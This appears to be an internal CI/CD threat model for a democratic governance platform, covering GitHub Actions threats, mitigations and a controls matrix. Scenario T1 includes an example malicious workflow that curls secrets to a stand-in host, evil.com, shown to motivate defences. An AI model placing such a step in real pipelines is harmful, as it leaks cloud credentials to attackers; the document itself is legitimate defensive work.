


# CI/CD Threat Model

> **Classification**: Internal - Security Sensitive  
> **Owner**: Security Team, Platform Engineering  
> **Last Updated**: 2025-11-05  
> **Review Cadence**: Quarterly  
> **Next Review**: 2026-02-05

## Executive Summary

This document identifies threats to our CI/CD pipeline and defines mitigations to protect our democratic governance platform. Given our mission-critical role in supporting democratic processes, our CI/CD security posture must meet the highest standards.

**Threat Level**: HIGH - CI/CD compromise can lead to supply chain attacks affecting production systems.

---

## Table of Contents

- [Threat Model Overview](#threat-model-overview)
- [Assets](#assets)
- [Threat Actors](#threat-actors)
- [Attack Surfaces](#attack-surfaces)
- [Threat Scenarios](#threat-scenarios)
- [Mitigations](#mitigations)
- [Security Controls Matrix](#security-controls-matrix)
- [Incident Response](#incident-response)

---

## Threat Model Overview

### Methodology

We use STRIDE (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) combined with attack tree analysis.

### Scope

**In Scope**:

- GitHub Actions workflows
- Git hooks (Lefthook)
- Secrets management
- Build artifacts and containers
- Deployment pipelines
- Third-party actions and dependencies

**Out of Scope**:

- Application-level threats (covered in separate threat model)
- Infrastructure threats (covered in infrastructure threat model)

---

## Assets

### Critical Assets

| Asset                    | Sensitivity | Impact if Compromised                         |
| ------------------------ | ----------- | --------------------------------------------- |
| **GitHub Secrets**       | CRITICAL    | Full AWS access, database credentials exposed |
| **AWS OIDC Trust**       | CRITICAL    | Unauthorized cloud access                     |
| **Source Code**          | HIGH        | Intellectual property theft                   |
| **Build Artifacts**      | HIGH        | Supply chain injection                        |
| **Container Images**     | HIGH        | Malicious code in production                  |
| **CI/CD Configurations** | HIGH        | Pipeline manipulation                         |
| **Audit Logs**           | MEDIUM      | Loss of accountability                        |
| **Developer Tokens**     | CRITICAL    | Repository manipulation                       |

---

## Threat Actors

### External Actors

1. **Nation-State Attackers**

   - **Capability**: Advanced persistent threats (APT)
   - **Motivation**: Disrupt democratic processes, steal data
   - **Likelihood**: MEDIUM (democratic tech is a target)

2. **Cybercriminals**

   - **Capability**: Automated attacks, ransomware
   - **Motivation**: Financial gain
   - **Likelihood**: HIGH

3. **Hacktivists**
   - **Capability**: DDoS, defacement
   - **Motivation**: Political statement
   - **Likelihood**: MEDIUM

### Internal Actors

4. **Malicious Insider**

   - **Capability**: Authorized access to systems
   - **Motivation**: Sabotage, theft
   - **Likelihood**: LOW

5. **Negligent Insider**
   - **Capability**: Accidental misconfiguration
   - **Motivation**: None (unintentional)
   - **Likelihood**: MEDIUM-HIGH

---

## Attack Surfaces



---

## Threat Scenarios

### T1: Malicious Workflow Injection

**STRIDE**: Tampering, Elevation of Privilege

**Scenario**: Attacker submits PR with malicious workflow that exfiltrates secrets.

```yaml
# Malicious workflow example
on: pull_request
jobs:
  steal:
    runs-on: ubuntu-latest
    steps:
      - run: |
          curl https://evil.com?secret=${{ secrets.AWS_SECRET }}
```

**Likelihood**: MEDIUM  
**Impact**: CRITICAL  
**Risk**: HIGH

**Mitigations**:
✅ PR reviews required for workflow changes  
✅ CODEOWNERS enforcement on `.github/workflows/`  
✅ Workflow approval required for first-time contributors  
✅ Secrets only accessible to protected branches  
🟡 Add automated workflow security scanning

---

### T2: Compromised Third-Party Action

**STRIDE**: Tampering, Information Disclosure

**Scenario**: Trusted GitHub Action is compromised and updated to steal secrets.

**Attack Tree**:

```
Compromise Action
├── Social Engineering Action Maintainer
├── Steal Maintainer's GitHub Token
└── Exploit Vulnerability in Action's Dependencies
    ├── Inject Malicious Code via Dependency
    └── Typosquatting Attack
```

**Likelihood**: MEDIUM  
**Impact**: CRITICAL  
**Risk**: HIGH

**Mitigations**:
✅ Pin actions to specific commit SHAs, not tags  
✅ Use verified actions from trusted publishers when possible  
✅ Renovate monitors action updates  
✅ Dependency Review action checks for vulnerabilities  
🟡 Add action security review checklist  
🟡 Implement action allowlist policy

---

### T3: Secret Exposure in Logs

**STRIDE**: Information Disclosure

**Scenario**: Developer accidentally logs secret value in workflow output.

```bash
# Dangerous
echo "API Key: ${{ secrets.API_KEY }}"
```

**Likelihood**: MEDIUM  
**Impact**: HIGH  
**Risk**: MEDIUM-HIGH

**Mitigations**:
✅ GitHub automatically masks registered secrets in logs  
✅ TruffleHog scans for exposed secrets  
✅ Secret rotation policy  
✅ Code review catches obvious exposures  
🟡 Add automated log scanning for unregistered secrets  
🟡 Implement secret monitoring dashboard

---

### T4: Malicious Dependency Injection

**STRIDE**: Tampering

**Scenario**: Attacker publishes malicious npm package with similar name or compromises existing package.

**Likelihood**: MEDIUM  
**Impact**: HIGH  
**Risk**: MEDIUM-HIGH

**Mitigations**:
✅ Package lock files committed  
✅ npm audit in CI  
✅ Snyk scanning  
✅ OWASP Dependency Check  
✅ Dependabot security updates  
🟡 Add package provenance verification  
🟡 Implement SBOM generation and validation

---

### T5: Container Image Tampering

**STRIDE**: Tampering

**Scenario**: Attacker modifies container image during build or at rest in registry.

**Likelihood**: LOW  
**Impact**: CRITICAL  
**Risk**: MEDIUM

**Mitigations**:
✅ Trivy scans images before deployment  
✅ ECR with encryption at rest  
✅ IAM policies restrict image push/pull  
✅ Images built in trusted GitHub runners  
🟡 Implement image signing (Sigstore/Cosign)  
🟡 Add image provenance attestation  
🟡 Implement SLSA Level 3 compliance

---

### T6: OIDC Token Theft

**STRIDE**: Spoofing, Elevation of Privilege

**Scenario**: Attacker steals OIDC token to impersonate CI/CD and access AWS.

**Likelihood**: LOW  
**Impact**: CRITICAL  
**Risk**: MEDIUM

**Mitigations**:
✅ OIDC tokens are short-lived (1 hour max)  
✅ Strict trust policy in AWS (repo, branch, environment filters)  
✅ Tokens not stored, only used once  
✅ CloudTrail logs all OIDC authentications  
🟡 Add anomaly detection on OIDC usage patterns  
🟡 Implement IP allowlisting for OIDC endpoint

---

### T7: Build Cache Poisoning

**STRIDE**: Tampering

**Scenario**: Attacker pollutes shared build cache with malicious artifacts.

**Likelihood**: LOW  
**Impact**: MEDIUM  
**Risk**: LOW-MEDIUM

**Mitigations**:
✅ GitHub Actions cache is scoped to repository and branch  
✅ Cache keys include hash of dependencies  
✅ Cache validation on restore  
🟡 Add cache integrity checksums  
🟡 Implement cache signing

---

### T8: Denial of Service on CI/CD

**STRIDE**: Denial of Service

**Scenario**: Attacker submits PRs with computationally expensive workflows to exhaust runner capacity.

**Likelihood**: MEDIUM  
**Impact**: MEDIUM  
**Risk**: MEDIUM

**Mitigations**:
✅ Workflow timeout limits (5-15 minutes)  
✅ Concurrency limits with `cancel-in-progress`  
✅ PR approval required for first-time contributors  
✅ Rate limiting on workflow runs  
🟡 Add compute budget monitoring  
🟡 Implement workflow cost analysis

---

### T9: Insider Threat - Malicious Commit

**STRIDE**: Tampering, Repudiation

**Scenario**: Authorized developer with malicious intent commits backdoor.

**Likelihood**: LOW  
**Impact**: CRITICAL  
**Risk**: MEDIUM

**Mitigations**:
✅ All commits require PR and review (except emergencies)  
✅ Branch protection on main  
✅ Comprehensive security scanning (Semgrep, Snyk)  
✅ Audit logs of all commits  
✅ Two-person rule for sensitive changes  
🟡 Add behavioral analytics for unusual commit patterns  
🟡 Implement code provenance tracking

---

### T10: Credential Stuffing on GitHub Accounts

**STRIDE**: Spoofing

**Scenario**: Attacker uses leaked credentials from other breaches to access developer GitHub accounts.

**Likelihood**: MEDIUM  
**Impact**: HIGH  
**Risk**: MEDIUM-HIGH

**Mitigations**:
✅ MFA enforced for all organization members  
✅ SSO with identity provider  
✅ Session timeout policies  
✅ Audit logs of authentication events  
🟡 Add passwordless authentication (WebAuthn)  
🟡 Implement continuous authentication

---

## Security Controls Matrix

| Control ID | Control                   | Type       | Status         | Threat Mitigated |
| ---------- | ------------------------- | ---------- | -------------- | ---------------- |
| **AC-1**   | MFA Enforced              | Preventive | ✅ Implemented | T10              |
| **AC-2**   | Branch Protection         | Preventive | ✅ Implemented | T1, T9           |
| **AC-3**   | CODEOWNERS                | Preventive | ✅ Implemented | T1               |
| **AC-4**   | Workflow Approval         | Preventive | ✅ Implemented | T1               |
| **SC-1**   | TruffleHog Secret Scan    | Detective  | ✅ Implemented | T3               |
| **SC-2**   | Semgrep SAST              | Detective  | ✅ Implemented | T1, T9           |
| **SC-3**   | Snyk Dependency Scan      | Detective  | ✅ Implemented | T2, T4           |
| **SC-4**   | Trivy Container Scan      | Detective  | ✅ Implemented | T5               |
| **SC-5**   | OWASP Dependency Check    | Detective  | ✅ Implemented | T4               |
| **CM-1**   | Pin Actions to SHA        | Preventive | ✅ Implemented | T2               |
| **CM-2**   | Package Lock Files        | Preventive | ✅ Implemented | T4               |
| **CM-3**   | Workflow Timeouts         | Preventive | ✅ Implemented | T8               |
| **AU-1**   | CloudTrail Logging        | Detective  | ✅ Implemented | T6, T9           |
| **AU-2**   | GitHub Audit Log          | Detective  | ✅ Implemented | All              |
| **IA-1**   | OIDC Authentication       | Preventive | ✅ Implemented | T6               |
| **IA-2**   | No Long-Lived Credentials | Preventive | ✅ Implemented | T3, T6           |
| **SI-1**   | Image Signing             | Preventive | 🟡 Planned     | T5               |
| **SI-2**   | SBOM Generation           | Detective  | 🟡 Planned     | T4, T5           |
| **SI-3**   | Workflow Security Scan    | Detective  | 🟡 Planned     | T1               |

---

## Incident Response

### Detection

**Indicators of Compromise (IoCs)**:

- Unexpected workflow modifications
- Unusual AWS API calls from OIDC
- Security scan failures
- Secrets in logs (TruffleHog alerts)
- Anomalous commit patterns
- Failed authentication attempts spike
- Unauthorized container image pushes

### Response Procedures

**Severity Levels**:

1. **P1 (Critical)**: Secret exposure, AWS compromise, malicious code in production
2. **P2 (High)**: Suspicious workflows, compromised developer account
3. **P3 (Medium)**: Failed security scans, attempted unauthorized access
4. **P4 (Low)**: Configuration drift, audit log anomalies

**Response Steps**:



**Contact Information**:

- **Security Team**: security@political-sphere.org
- **On-Call**: PagerDuty escalation
- **Emergency**: security-emergency Slack channel

---

## Recommendations for Level 5 (Sovereign-Grade)

### Short-Term (Q1 2026)

- [ ] Implement artifact signing (Sigstore/Cosign)
- [ ] Add workflow security scanning automation
- [ ] Implement SBOM generation
- [ ] Add anomaly detection for OIDC usage
- [ ] Create incident response runbook

### Medium-Term (Q2-Q3 2026)

- [ ] Achieve SLSA Level 3 compliance
- [ ] Implement supply chain provenance verification
- [ ] Add behavioral analytics for insider threats
- [ ] Create security metrics dashboard
- [ ] Conduct penetration testing of CI/CD

### Long-Term (Q4 2026+)

- [ ] Achieve SLSA Level 4 compliance
- [ ] Implement zero-trust CI/CD architecture
- [ ] Add AI-powered threat detection
- [ ] Create immutable audit trail with cryptographic verification
- [ ] Establish bug bounty program for CI/CD

---

## Related Documentation

- [CI/CD Architecture](../architecture/cicd-flow.md)
- [ADR-005: Multi-Layer Security Scanning](../adr/005-multi-layer-security-scanning.md)
- [ADR-006: OIDC Authentication](../adr/006-oidc-for-cloud-authentication.md)
- [Incident Response Plan](../INCIDENT-RESPONSE-PLAN.md)
- [Security Audit Summary](../SECURITY-AUDIT-SUMMARY.md)

---

**Document Control**:

- Classification: Internal - Security Sensitive
- Version: 1.0.0
- Last Threat Assessment: 2025-11-05
- Next Assessment: 2026-02-05
